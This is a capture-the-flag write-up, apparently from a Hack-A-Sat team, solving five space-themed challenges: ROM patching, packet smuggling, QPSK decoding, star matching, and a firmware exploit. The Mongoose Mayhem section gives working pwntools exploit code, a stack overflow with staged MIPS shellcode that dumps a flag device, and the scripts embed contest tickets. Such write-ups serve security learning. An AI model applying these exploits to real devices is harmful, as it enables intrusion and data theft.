

# Mars or Bust

Mars or Bust was a challenge in the Rapid Unplanned Disassembly category, which featured
primarly reverse engineering tasks. We were given access to a web interface, which allowed us
to simulate the landing of a mars probe. Furthermore, we could download and even update the
ROM file used to perform the landing.

Simulating the unmodified ROM showed a nominal descend trajectory, but an early engine
shotdown at an altitude or around 40m, causing the lander to crash. Time to get out the
reverse engineering tools.

As the challenge was quite similar to all the other MIPS challenges in Hack-A-Sat, we setup the
memory maps as following:

* ROM at `0xbfc00000`
* RAM at `0xa0180000`, initialized with data from file offset 0x5e`fc to `0x649`

Like the other MIPS challenges, the reset vector at 0x00 (0xbfc00000) pointed to the intialition
function at 0xbfc00400, which initializes registers and copies the above mentioned data from
ROM to RAM.

The MIPS binary revealved a state machine. The result of multiple, combined sensor values
caused the transistions between the states in the state machine. For example, the PID
controller was active, if the speed sensor measured a value below 81m/s. Once the altitude
sensor reported a height less than 40m above the mars surface, a bang bang controller took
over, controlling the terminal velocity to be steady around -2.4 m/s.

We observed two errors in the program, one in the controller configuration and one in the state
machine itself:
* The terminal velocity of 2.4m/s was too fast for a smooth landing
* The state machine trigged the engine cutoff, once the final approching stage (bangbang
controller below 40m) was entered. This caused the lander to fall from a height of
40m.

Once we disabled the engine cutoff by patching the `li v0, 0x1` instruction at `0xbfc05d18` to
`li v0, 0x0` and decreased the terminal velocity (double floating point) at `0xa0180578`
(matching file offset `0x6474`) to `-1.0` we had a landing! But since the engines weren't shut
down at all, there was still no flag for us.

We tried an engine shutdown once the **altitude sensor** showed a value of 0.0, but it seemed
like the probe was still a little bit above the surface at this time. Turns out, if we shut down the
engine once the speed sensor reaches zero, we are good to go.

The final patch for the state machine was

* Add an additional floating point value at RAM `0xa0180584` with an value of `0.0`
* Load the value of the speed sensor, compare it with the just added floating point value
of 0.0 and write the engine-shutdown to the stack, once they match. In code:
```
bfc05cf8 34 00 c2 c7 lwc1 f2,0x34(s8) // Load speed sensor value
(float) from stack
bfc05cfc 18 a0 02 3c lui v0,0xa018 // Load static 0.0 value from
RAM
bfc05d00 84 05 40 c4 lwc1 f0,offset FLOAT_a0180584(v0)
= 0.0
bfc05d04 00 00 00 00 nop
bfc05d08 32 10 00 46 c.eq.S f2,f0 // Compare both floating point values
bfc05d0c 00 00 00 00 nop
bfc05d10 03 00 00 45 bc1f LAB_bfc05d20 // branch if the comparsion
didn't return TRUE
bfc05d14 00 00 00 00 _nop
bfc05d18 01 00 02 24 li v0,0x1 // Load value TRUE into v0
bfc05d1c 2a 00 c2 a3 sb v0,0x2a(s8) // Store byte (TRUE) on engine
cutoff value on stack
```

Finally we had a proper landing and were rewarded with the flag!

Script to upload the ROM and patch the terminal velocity on the fly:

```python
#!/usr/bin/env python
import json
from pwn import *
from websocket import create_connection
def hackasat_connect(host, port, ticket):
_io = remote(host, port)
_io.sendlineafter('please:\n', ticket)
return _io
io = hackasat_connect(
'living-hazard.satellitesabove.me', 5000,
'ticket{delta390604echo2:GFFZarfbtkc1Ce9cW7675KqrpuhtZf4Z7noe_LE9GC5tTPWIKAFHku
SxthDnepvVcA}')
def patch_rom(file, patches):
with open(file, 'rb') as file_:
data_ = bytearray(file_.read())
res_ = dict()
for name_, (offset_, (type_, len_), value_) in patches.items():
if value_ is not None:
data_[offset_:offset_ + len_] = struct.pack(type_, value_)
res_[name_] = struct.unpack(type_, data_[offset_:offset_ + len_])[0]
return data_, res_
PATCHED_VALUES = {
# PID (floats)
'D': (0x5efc + 0x560, ('f', 4), None),
'P': (0x5efc + 0x564, ('f', 4), None),
'I': (0x5efc + 0x568, ('f', 4), None),
'Time': (0x5efc + 0x56c, ('f', 4), None),
'Terminal Velocity': (0x5efc + 0x578, ('d', 8), -1),
'Cutoff off': (0x5d18, ('b', 1), None),
'Sensor 0 Off' : (0x5ca4, ('i',4), None),
'Sensor 1 Off' : (0x5ccc, ('i',4), None),
'Sensor 2 Off' : (0x5cf4, ('i',4), None),
'Sensor 3 Off' : (0x5d1c, ('i',4), None),
}
rom, results = patch_rom('speed_0.rom', PATCHED_VALUES)
with open('new.rom', 'wb') as file:
file.write(rom)
print(results)
host, port = io.recvline_contains(b'browser').split(b'//')[1].split(b':')
host = host.decode()
port = int(port.decode())
ws = create_connection(f"ws://{host}:{port}")
data = ''.join([chr(x) for x in rom])
ws.send(json.dumps({"cmd": "upload", "data": data}))
ws.send(json.dumps({"cmd": "start"}))
while True:
rec = ws.recv()
print(rec)
```

# Groundead

Groundead was the last challenge in the *Presents from Marco* category. The challenges
provides a service that accepts some sort of control packets:
```
Ground Station ONLINE

> deadbeef

That sequence of hex characters did not work. Try again.
```
Luckily, we've also got the binary that the server is running.
The service is split into two parts:
1. A thread that receives and pre-processes input.
The receiver thread decodes and validates hex input, but will also check that the
seventh byte is 0x07.
If the input passes these checks, it'll be sent to the other thread via a shared queue.
2. A thread that implements some sort of state-machine. Our goal here is to reach the
state that'll send back the flag.
The state-machine synchronizes on a hard-coded bytestream (1acffc1d) which seems
to be modeled after the protocol used in Falcon 9's telemetry
( <https://www.eevblog.com/forum/general-computing/is-anybody-else-working-ondecoding-the-falcon-9-telemetry/> ).
This synchronizer is also present in the pre-processing thread, where it is prepended to
each input packet.

After reversing the packet processor a bit, we found all the constraints necessary to reach the
target state. One of those requires the 7th byte to not be a seven though.
This means that we can't pass the pre-processing if we try to send the packet. This is also
where the synchronizing marker comes in handy.
We can include this marker in our first packet, and thus can control the seventh byte after the
marker, because it's not the seventh byte in our input anymore.

This smuggled request gets us the flag:
```
Ground Station ONLINE
>080000000000071acffc1d08000000000008
Packet Version Number: 00000000
Packet Type: 00000000
Secondary Header Flag: 00000001
Application Process Identifier: 00000000
Sequence Flags: 00000000
Packet Sequence Count or Packet Name: 00000000
Packet Data Length: 00000001
EMERGENCY_MODE: THE SPACECRAFT IS IN EMERGENCY_MODE
You made it!
Here's your flag:
[...]
```

# Credence Clearwater Space Data Systems
## Challenge

**Title:** credence clearwater space data systems

**Category:** We're On the Same Wavelength

**Points:** 155

**Solves:** 21

**Description:**

> We've captured this noisy IQ data from a satellite and need to decode it. Figure
> out how to filter the noise while maintaining the signal characteristics, then
> demodulate and decode the signal to get the flag. The satellite is transmitting
> using asynchronous markers in CCSDS space packets and an unknown
> modulation.

**Attachements:** iqdata.txt

## Solution
As the challenge description says, the provided iqdata.txt file contains IQ samples:
```
-0.7746225782346648+0.7596258488365375j
-0.8485072076016313+0.6905902132617234j
-0.4410367078241216+0.9099030253023024j
```
As the modulation is unknown, our first step was converting this text based format into the
binary format used by GNURadio (alternating I and Q samples as 32 bit floats).

Visualizing the data with a constellation sink shows that the data is modulated with QPSK, since
you can clearly see four distinct "blobs":



The noise is small enough, so that a mapping from sample to symbol is possible simply by
looking at its quadrant.

As there are four possible symbols, each one can encode two bits. How this mapping is done is
not standardized, so we simply tried all possible decodings.

The only remaining issue is, that one symbol is longer than one sample, and not necessarily by
an integer amount. Luckily for us, the symbols are oversampled by a large enough factor
(around 4). This means a very basic decoding approach is enough to decode cleanly:
1. Map the samples to one of the four quadrants.
2. Run-Length-Encode the resulting sequence of symbols.
3. Divide the length of each run by four, and round to the nearest integer.
4. Undo the Run-Length-Encoding to get the full symbol stream
5. For all 24 symbol-to-2bit mappings:
    * Convert the symbol-stream to binary-stream
    * ascii decode
    * grep for flag

This leads us to the flag:
`flag{uniform589720papa2:GAgccPKwCERr6CwGO9CiUdntehxwObg3qm2varVhZ-X0fEstG9If2vyIYBrIxkNjLmp_
QPQf4SetvFA8PtcRS4}`

Full solve script:

```python
from itertools import groupby, permutations
# read data
with open("iqdata.txt", "r") as f:
rdat = f.readlines()
# parse data to array-of-iq-tuples
dat = []
for x in rdat[:-1]:
idx = len(x) - x[::-1].index(".") - 3
dat += [(float(x[:idx]), float(x[idx:-2]))]
# map quadrants to symbols
symbols = []
for i,q in dat:
if i > 0 and q > 0:
symbols += [0] # 11
elif i > 0 and q < 0:
symbols += [1] # 10
elif i < 0 and q < 0:
symbols += [2] # 01
else:
symbols += [3] # 00
def run_length_encode(data):
return ((x, sum(1 for _ in y)) for x, y in groupby(data))
# deduplicate symbol stream
dedupsym = []
for sym,rle in run_length_encode(symbols):
dedupsym += [sym] * int(round(rle/4))
# try all symbol-bit-mappings
symbits = ["00", "01", "10", "11"]
for p in permutations(symbits):
out = ""
for s in dedupsym:
out += p[s]
# convert bit stream to bytes, and print if flag is contained
val = int(out, 2)
byt = val.to_bytes(150, "big")
if b"flag" in byt:
print(byt)
```

# Hindsight
This challenge in the main enginering category was very similar to a challenge from last year:
You are provided with a catalog of vectors to stars, and a bunch of measurements of vectors to
observed stars on the nightsky. This year however the sensor was not able to measure the
magnitudes of stars, and the actual measurements were noisy.

The catalog consists of 1732 stars. This is still small enough to compute the distance between
each pair of stars, which got me the idea to compute the distance of a star to each other for
each star in the catalog, and save that for later use in a dictionary.

The idea was to now do a similar thing for every observed star and calcuate the distance to
every other observed star. Now we can iterate through all stars of the catalog, and see if there
is a distance that matches for every of the distances we just computed. This itself is not quite
sufficient however, for two reasons:

## The fuzzyness of the sensor
Because the measurements aren't quite acurate, the distances won't be quite right as well. To
solve this problem, we search the distance from the catalog-star that most closely matches the
observed distance, and then add the squared error to a similarity measure. In the end choose
the catalog star with the smallest such score.

## The running time
Doing this naively takes too long. If $n$ is the amount of stars in the catalog and $m$ is the
amount of observed stars, then the naive approach would require $O(n^2m^2)$ time. We
improved this by sorting the list of distances and traversing it in a linear fashion:
keep two pointers in both lists. If the element the left pointer points to is larger than the
element the right pointer points to, increase the right pointer. Otherwise the element we point
to on the right is the first element that is larger than the left element, meaning the closest
value to the left element is either the right element, or the one before it. Then increment the
left pointer.
```python
def compare_dists(left, right):
result = 0
i_left = 0
i_right = 0
while i_left < len(left):
while left[i_left] > right[i_right]:
i_right += 1
error = np.abs(left[i_left] - right[i_right])
if i_right >= 1:
error = min(error, np.abs(left[i_left] - right[i_right - 1]))
result += error * error
i_left += 1
return result
```
With this approach we achieve a running time of $O(m^2 + n^2m)$, and since we don't have
to traverse every element of the right list, this was actually pretty fast even in our python
implementation.

## Possible improvements
We used $|a-b|$ as the measure of distance between two stars, where $a$ and $b$ are the
observed unit vectors to the stars. One possible improvement would be to instead use the
distance between the two points on the unit sphere these vectors point to. Since our solution
was already enough to get the flag, we didn't bother doing that though.
## The implementation
```python
from pwn import *
import numpy as np
# read catalog
catalog = []
stars = read('catalog.txt').splitlines()
for star in stars:
if len(star) > 0:
catalog.append(np.asarray([float(s.decode()) for s in
star.split(b',\t')]))
# precompute distances in catalog
dists = {}
print('producing distances')
for a in range(len(catalog)):
list = []
for b in range(len(catalog)):
if a != b:
list.append(np.linalg.norm(catalog[a] - catalog[b]))
list.sort()
dists[a] = list
r = remote('early-motive.satellitesabove.me', 5002)
r.sendlineafter(b'Ticket please:\n',
b'ticket{mike944382lima2:GOa8sl5KdOUXVsGeFmXJgupmyQR2Ofe2OI-ipm_DUPw-
PCFVSXLTOqKfXSE6wxBQUA}')
def compare_dists(a, b):
result = 0
i_a = 0
i_b = 0
while i_a < len(a):
while a[i_a] > b[i_b]:
i_b += 1
error = np.abs(a[i_a] - b[i_b])
if i_b >= 1:
error = min(error, np.abs(a[i_a] - b[i_b - 1]))
result += error * error
i_a += 1
return result
for i in range(5):
# read stars
stars = []
while True:
l = r.recvline(keepends=False)
if len(l) == 0:
break
stars.append(np.asarray([float(s.decode()) for s in l.split(b',\t')]))
guesses = []
for a_i, a in enumerate(stars):
# compute meassured distances
meassured_dists = []
for b_i, b in enumerate(stars):
if a_i == b_i:
continue
meassured_dists.append(np.linalg.norm(a - b))
meassured_dists.sort()
# chose the catalog star with the least sum of square errors
min_d = 100000000000
arg_min = None
for c_i, c in enumerate(catalog):
d = compare_dists(meassured_dists, dists[c_i])
if d < min_d:
min_d = d
arg_min = c_i
print(f'matched {a_i} with catalog star {arg_min} with square error of
{min_d}')
guesses.append(arg_min)
# send guesses
r.sendline(','.join([str(i) for i in guesses]).encode())
if i != 4:
r.recvuntil(b'Left...\n')
# profit
r.interactive()
```

# Mongoose Mayhem
Mongoose Mayhem was a challenge in the "Reverse Engineering" category and conceptually
very similar to last year's LaunchLink challenge. Once again, we're provided with a mips
firmware image and the vmips emulator binary. Running the emulator reveals a couple of
custom hardware devices connected through MMIO:
```
root@pwnubuntu ~/h/mongoose# ./vmips -o fpu -o memsize=3000000 firmware.rom
Little-Endian host processor detected.
Mapping ROM image (firmware.rom, 6091 words) to physical address 0x1fc00000
Mapping RAM module (host=0x7f48d4bb0010, 2929KB) to physical address 0x0
Mapping Timer device to physical address 0x01010000
Connected IRQ7 to the Timer device
Mapping Sensor device to physical address 0x02100000
Mapping Flag Device to physical address 0x02008000
Mapping Synova UART to physical address 0x02000000
Connected IRQ3 to the Synova UART
Mapping Synova UART to physical address 0x02000010
Connected IRQ4 to the Synova UART
Connected IRQ5 to the Synova UART
Hit Ctrl-\ to halt machine, Ctrl-_ for a debug prompt.
*************RESET*************
p􀁘JsA^C^J
```

We can spot a timer, some sensors, UART devices and most interestingly a "Flag" device at
`0x02008000`. We're most likely supposed to exploit some type of memory corruption
vulnerability to take over the processor and inject malicious code to exfiltrate data from the
flag device.

Every couple of seconds the device prints out some random-looking data and it doesn't seem
to be accepting input from STDIN.

## Finding the vulnerability
The next thing to do is to reverse engineer the firmware image to understand how we can
interact with the device. After loading the firmware image into ghidra we have to create a ROM
section at `0xbfc00000` for the code and a RAM section at `0xa0180000` for data. The first address
in the image points to the reset vector which does some hardware setup and ultimately invokes
the main function at `0xbfc0578c` containing the main logic. We can quickly identify a disabled
debug logging function at `0xbfc00718` which can be re-enabled by just patching a byte in our
firmware image.

If we run the emulator again, this time with debug logging enabled, and attempt to send some
data, we get a "checksum failed" error. This error is caused by the function at 0xbfc04490
which reads and verifies data from the UART device. It uses a very simple protocol:
```
     Header           55 bytes of data      checksum
[0xa5 0x5a 0xa5]  [0x.. 0x.. 0x.. 0x.. ...]  [0x..]
```

The checksum algorithm just adds up all the data bytes `% 0xff`. Here's our python
implementation of this checksum calculation:
```python
def generateChecksum(data):
checksum = 0
for i in data:
checksum += i
return 0xff - (checksum & 0xff)
```
Now we're able to send valid messages and get to the more interesting logic. At this point, we
decided to write a dumb fuzzer that creates messages with random data and sends them to
the device. We can also enable the haltdumpcpu flag in vmips, which will dump the CPU state if
we manage to get a crash. After running the fuzzer for a couple of seconds, it discovered a
stack memory corruption using this message:
```
      header       data starting with 0x5c   checksum
[0x5a, 0xa5, 0x5a]  [0x5c 0x.. 0x.. ...]      [0x..]
```
The crash happens when the function at 0xbfc05220 attempts to return.
```c
void FUN_bfc05220(packet *param_1)
{
bool bVar1;
uint type;
int iVar2;
undefined4 local_10;
float local_c;
type = param_1->msg_type & 0xf; // --- [1] ---
memcpy((char *)((int)&local_10 + type),(char *)&param_1->msg_data,8); // --- [2] ---
iVar2 = FUN_bfc04c74(local_c);
if ((iVar2 == 0) && (iVar2 = FUN_bfc04c10(local_c), iVar2 == 0)) {
bVar1 = false;
}
else {
bVar1 = true;
}
if (!bVar1) {
iVar2 = type * 8;
*(undefined4 *)(&DAT_a0180608 + iVar2) = local_10;
*(float *)(&DAT_a018060c + iVar2) = local_c;
}
return;
}
```
After having a quick look at this function we can see that it takes the lower half of the fourth
byte in the message (`[1]`) and uses it as a stack offset where it copies data from our message
to (`[2]`). There is no bounds check, ensuring that the offset is still in our current stackframe so
we're able to corrupt the return pointer and redirect the control flow to an arbitrary memory
location.

## Exploitation
We have PC control, but we don't know where to return to yet. Luckily for us, most memory on
this device is RWX meaning we can likely just store shellcode somewhere in our message and
point the instruction pointer to it to get arbitrary code execution. In order to do that, we first
have to figure out where our message is stored in memory. This is not too difficult because we
can send a message with some recognizable data and just dump the running memory using
vmips's memdump option. The only thing left is to write the actual shellcode. Sadly, our message
buffer isn't large enough to hold the entire shellcode so we decided to write a small dispatcher
shellcode that writes the stage 2 shellcode to a fixed RAM address 4-bytes at a time.

Here is our python implementation of said dispatcher:
```python
def send_shellcode(shellcode, addr):
chunks = group(4, shellcode)
for i,c in enumerate(chunks):
sc = ""
sc += shellcraft.mips.mov('$v1', u32(c))
sc += shellcraft.mips.mov('$v0', addr + i*4)
sc += "sw $v1, 0x00($v0)\n"
sc += shellcraft.mips.mov('$t0', 0xbfc04fd0) # Jump back to start
sc += "j $t0\n"
sc += "nop\n"
crafted = asm(sc)
packet = bytes([0x5a, 0xa5, 0x5a, 0x5c]) + bytes([0x00]) +
p32(0xfefd4+0xa0000000) + bytes([0x00]*2) + crafted + bytes([0x00]*(53-
len(crafted)))
checksum = generateChecksum(packet[3:])
p.send(bytes(packet) + bytes([checksum]))
time.sleep(0.2)
```
Now we can get to the actual shellcode. Our shellcode has to initialize the UART device, read
data from the FLAG device, write it to the UART device and flush the UART device to display the
data. This is what we came up with:
```python
def send_shellcode_memcpy(target_addr):
sc = ""
sc += "or $s0, $zero, $zero\n"
sc += "start:\n"
sc += shellcraft.mips.mov('$v0', 0xa3000020) # load UART address
sc += 'lbu $v1,0x0($v0)\n'
sc += "li $v0,0x1\n" # init write
sc += 'beq $v0, $v1, start\n'
sc += 'nop\n'
sc += shellcraft.mips.mov('$a0', 0xa3000024)
sc += shellcraft.mips.mov('$a1', 0xa2008000) # load FLAG address
sc += "add $a1, $a1, $s0\n"
sc += "addi $s0, $s0, 16\n"
sc += shellcraft.mips.mov('$a2', 16)
sc += shellcraft.mips.mov('$t0', 0xbfc04078) # memcpy
sc += 'jalr $t0\n' # call memcpy
sc += 'nop\n'
sc += shellcraft.mips.mov('$v0', 0xa3000020) # flush UART
sc += 'or $v1, $zero, $zero\n'
sc += 'sw $v1, 0x00($v0)\n'
sc += "target:"
sc += "nop\n" # Loop back to start to send more data
sc += "b start\n"
sc += "nop\n"
crafted = asm(sc)
send_shellcode(crafted, 0xfefd4+0xa0000000+0x200)
# a00fefd4 is our message buffer and we write some bytes after that
```
That's it. Running this on the remote server returns the flag :D

## Full Sourcecode
Requires pwntools to run.
```python
from pwn import *
import funcy
import time
#context.terminal = ['tmux', 'splitw', '-h']
def generateChecksum(data):
checksum = 0
for i in data:
checksum += i
return 0xff - (checksum & 0xff)
def send_shellcode_jump(target_addr):
sc = ""
sc += shellcraft.mips.mov('$ra', 0xfefd4+0xa0000000+0x200)
sc += "addui $sp, $sp, -0x50"
sc += "sw ra, -0x04($sp)"
sc += "sw s8, -0x08($sp)"
sc += "or $s8, $sp, $zero"
sc += shellcraft.mips.mov('$t0', target_addr) # laod upper & load lower
sc += 'j $t0\n'
sc += 'nop\n'
sc += "jr $ra\n" #Infinite loop
sc += "nop\n" #Infinite loop
def send_shellcode_memcpy(target_addr):
sc = ""
sc += "or $s0, $zero, $zero\n"
sc += "start:\n"
sc += shellcraft.mips.mov('$v0', 0xa3000020) # laod upper & load lower
sc += 'lbu $v1,0x0($v0)\n'
sc += "li $v0,0x1\n"
sc += 'beq $v0, $v1, start\n'
sc += 'nop\n'
sc += shellcraft.mips.mov('$a0', 0xa3000024)
sc += shellcraft.mips.mov('$a1', 0xa2008000)
sc += "add $a1, $a1, $s0\n"
sc += "addi $s0, $s0, 16\n"
sc += shellcraft.mips.mov('$a2', 16)
sc += shellcraft.mips.mov('$t0', 0xbfc04078)
sc += 'jalr $t0\n' # memcpy
sc += 'nop\n'
sc += shellcraft.mips.mov('$v0', 0xa3000020)
sc += 'or $v1, $zero, $zero\n'
sc += 'sw $v1, 0x00($v0)\n'
sc += "target:"
sc += "nop\n" #Infinite loop
sc += "b start\n" #Infinite loop
sc += "nop\n" #Infinite loop
crafted = asm(sc)
send_shellcode(crafted, 0xfefd4+0xa0000000+0x200)
def send_shellcode(shellcode, addr):
chunks = group(4, shellcode)
for i,c in enumerate(chunks):
sc = ""
sc += shellcraft.mips.mov('$v1', u32(c))
sc += shellcraft.mips.mov('$v0', addr + i*4)
sc += "sw $v1, 0x00($v0)\n"
sc += shellcraft.mips.mov('$t0', 0xbfc04fd0)
sc += "j $t0\n"
sc += "nop\n"
crafted = asm(sc)
packet = bytes([0x5a, 0xa5, 0x5a, 0x5c]) + bytes([0x00]) +
p32(0xfefd4+0xa0000000) + bytes([0x00]*2) + crafted + bytes([0x00]*(53-
len(crafted)))
checksum = generateChecksum(packet[3:])
p.send(bytes(packet) + bytes([checksum]))
time.sleep(0.2)
sc = ""
sc += shellcraft.mips.mov('$t0', addr)
sc += "j $t0\n"
sc += "nop\n"
crafted = asm(sc)
packet = bytes([0x5a, 0xa5, 0x5a, 0x5c]) + bytes([0x00]) +
p32(0xfefd4+0xa0000000) + bytes([0x00]*2) + crafted + bytes([0x00]*(53-
len(crafted)))
checksum = generateChecksum(packet[3:])
p.send(bytes(packet) + bytes([checksum]))
#p = gdb.debug('./vmips -o dbemsg -o fpu -o memsize=3000000 -o haltdumpcpu -o
excmsg firmware.rom'.split(" "), '''
#br *0x418E50
#''', env={"FLAG":"HACKSXXXXXX"})
p = remote("elite-poet.satellitesabove.me", 5012)
p.sendlineafter(b'Ticket please:\n',
b'ticket{foxtrot147843hotel2:GJDNvYiXdmM4UkDgJgbn7RhKs6z0GbRlRYcOD1McblofouxiUM
YWj2bpNJ0WvGkf1A}')
#p = process('./vmips -o dbemsg -o fpu -o memsize=3000000 -o haltdumpcpu -o
excmsg firmware.rom', shell=True)
#br *0x418E50
#''')
context.arch = "mips"
context.endian = "little"
time.sleep(2)
# Structure: [Header] + \x00-padding + RET-Addr + \x00-aligment + shellcode +
\x00-padding to total of 64 byte paket
#evilpacket = bytes([0x5a, 0xa5, 0x5a, 0x5c]) + bytes([0x00]) +
p32(0xfefd4+0xa0000000) + bytes([0x00]*2) + stuff + bytes([0x00]*(53-
len(stuff)))
send_shellcode_memcpy(0xbfc056f4)
p.interactive()
```